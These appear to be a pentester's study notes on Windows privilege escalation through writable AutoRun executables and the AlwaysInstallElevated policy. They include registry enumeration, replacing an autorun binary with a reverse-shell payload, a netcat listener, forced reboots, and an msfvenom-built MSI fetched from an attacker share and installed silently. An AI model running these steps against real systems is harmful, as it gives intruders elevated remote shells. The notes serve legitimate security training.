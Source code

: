 
#windows #registry #privesc 

# AutoRuns

Windows can be configured to run commands at startup, with elevated privileges.
These "AutoRuns" are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system ( or wait for it to be restarted ) you may be able to escalate privileges. 

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For all users
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For user logged in 

## Commands for registry


```cmd
===>  req query <KEY_PATH> /v <name_value> /s /f <pattern>

reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProgramFilesDir
reg query "HKLM\SOFTWARE" /f "Windows" /s


===> reg add <KEY_PATH> /v <name_value> /t <data_type> /d <data> /f 

reg add "HKCU\Software\TestKey" /v TestValue /t REG_SZ /d "Ceci est une valeur" /f
reg add "HKLM\Software\TestKey" /v TestDWORD /t REG_DWORD /d 1 /f


===> reg delete <KEY_PATH> /v <name_value> /f

reg delete "HKCU\Software\TestKey" /v TestValue /f
reg delete "HKCU\Software\TestKey" /f


===> reg export <KEY_PATH> <Destination_Path> /y 

reg export "HKLM\SOFTWARE\TestKey" C:\Backup\TestKey.reg /y


===> reg import <.reg Path>

reg import C:\Backup\TestKey.reg



===> reg copy <SOURCE_PATH> <DESTINATION_PATH> /s /f 

reg copy "HKCU\Software\TestKey" "HKLM\Software\BackupKey" /s /f



```

#### Output WinPeas Applicationsinfo

```bash
[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run


```



## 1- Enumerate manually Autorun 

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

 Result  
```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
Mware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Checks ACLs of Autorun executables 

```cmd
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```cmd
icacls "C:\Program Files\Autorun Program\program.exe"
```

```powershell
(Get-Acl "C:\Program Files\Autorun Program\program.exe").Access
```

Here program.exe run as user is logged 

## 2 - Copy payload executable to overwrite the program 

```cmd
copy /Y reverse.exe "C:\Program Files\Autorun Program\Program.exe"
```

## 3 - Set up another listener and restart Windows

```bash
sudo rlwrap nc -lvnp 53 
```

```cmd
shutdown /r /t 0
```

```powershell
Restart-Computer -ComputerName "PcName"
```

```cmd
wmic os where primary=true reboot
```

```cmd
taskkill /IM explorer.exe /F & shutdown /r /t 0
```

On Windows 10 , at least when the system restarts , it seems to run the command with the privileges of the user who was last logged in to avoid this causing issues.
ff
To avoid this causing issues we log out of the user accout and log as the admin account and restart 

# AlwaysInstallElevated

MSI files are packages files used to install appliications.
These files run with the permissions of the user trying to install them.

Windows allows for these installers to be run with elevated ( i.e admin ) privileges.
If this is the case , we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work.
The "AlwaysInstallElevated" Value must be set to 1 for both local machine:

HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

and the current user :

KHCU\SOFTWARE\Policies\Microsoft\Windows\Installer

If either of these are missing or disabled , the exploit will not work 

## 1 - Enumeration WinPeas

On module windowscreds 

```bash
[+] Checking AlwaysInstallElevated(T1012)

    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

```

We can see that both InstallElevatedRegistry keys were found to be enabled.

## 2 - Verify manually 

```cmd 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

==> AlwaysInstallElevated    REG_DWORD    0x1


reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

==> AlwaysInstallElevated    REG_DWORD    0x1

```

## 3 - Exploit

Create a new reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f msi > reverse.msi
```

Copy and execute-it

```cmd
copy \\<MY-IP>\shares\reverse.msi .
msiexec /quiet /qn /i reverse.msi
```
